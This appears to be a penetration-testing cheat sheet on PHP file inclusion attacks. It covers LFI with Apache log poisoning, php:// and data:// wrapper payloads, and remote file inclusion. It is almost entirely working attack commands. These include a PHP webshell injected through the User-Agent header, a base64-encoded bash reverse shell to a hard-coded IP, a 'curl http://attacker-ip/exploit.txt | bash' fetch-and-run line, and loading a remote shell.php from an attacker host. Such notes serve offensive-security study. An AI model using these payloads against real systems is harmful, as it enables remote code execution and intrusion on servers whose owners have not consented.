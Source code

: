 # LFI

Combine Directory Traversal with Local File Inclusion for shell

```
kali@kali:~$ curl http://vulnerable-website/index.php?page=../../../../../../../../../var/log/apache2/access.log
```

will give:

```
192.168.250.1 - - [12/Apr/2022:10:34:55 +0000] "GET /index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```

So note the user agent is added. This is usally if the 'combined' log setting is in the apache2.conf log setting.

So lets add a webshell into our user agent

```
<?php echo system($_GET['cmd']); ?>
```

```
GET /index.php?page=admin.php HTTP/1.1
Host: vulnerable-website
User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

NB: only seed this webshell once, otherwise there will be multiple instances of the webshell!

Then to trigger it: 

```
kali@kali:~$ curl http://vulnerable-website/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=id
```

will send the cmd parameter to the php webshell which in this case is `id` so the response should be included in the log

now we can setup a reverse shell with the following

send this reverse shell command into base64

```
kali@kali:~$ echo -n 'bash -c "bash -i >& /dev/tcp/192.168.240.7/443 0>&1"' | base64

YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0MC43LzQ0MyAwPiYxIg==
```

now if you have to url encode it as the command:
```
echo -n YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0MC43LzQ0MyAwPiYxIg== | base64 -d | bash
```

which can be done by going to [https://gchq.github.io/CyberChef](https://gchq.github.io/CyberChef)

you get url encoded and special characters encoded as

```
echo%20%2Dn%20YmFzaCAtYyAiYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjI0MC43LzQ0MyAwPiYxIg%3D%3D%20%7C%20base64%20%2Dd%20%7C%20bash
```

so to trigger the payload do the following

```
kali@kali:~$ curl http://vulnerable-website/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=echo%20%2Dn%20YmFzaCAtYyAiYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjI0MC43LzQ0MyAwPiYxIg%3D%3D%20%7C%20base64%20%2Dd%20%7C%20bash
```

another way is to use the command and have that encoded into url encoded.

```
kali@kali:~$ curl http://attacker-ip/exploit.txt | bash
```

# PHP Wrappers

`php://filter/resource` for no filter file inclusion

```
kali@kali:~$ curl http://vulnerable-website/index.php?page=php://filter/resource=admin.php
```

`php://filter/convert.base64-encode/resource=admin.php` for base64 filter file inclusion

```
kali@kali:~$ curl http://vulnerable-website/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

`data://test/plain,<?php%20echo%20system('ls');?>` for php input in the same command

```
kali@kali:~$ curl "http://vulnerable-website/index.php?page=data://test/plain,<?php%20echo%20system('ls');?>"
```

or convert it to base64 and tell it to decode it as base64

```
kali@kali:~$ echo -n '<?php echo system($_GET["cmd"]);?>' | base64
```

then

```
kali@kali:~$ curl "http://vulnerable-website/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

and of course you should be able to get a shell out of that as well.

# RFI

Remote file Inclusion

say you have a php file called `shell.php` which contains `<?php echo system($_GET['cmd']); ?>`

host it on a web server and then it could get loaded into the php of the server via the paramater.

```
kali@kali:~$ curl "http://vulnerable-website/index.php?page=http://attacker-ip/shell.php&cmd=ls"
```

this could load the attacker's php into the server as a file include but it's remote as it's coming from your web server.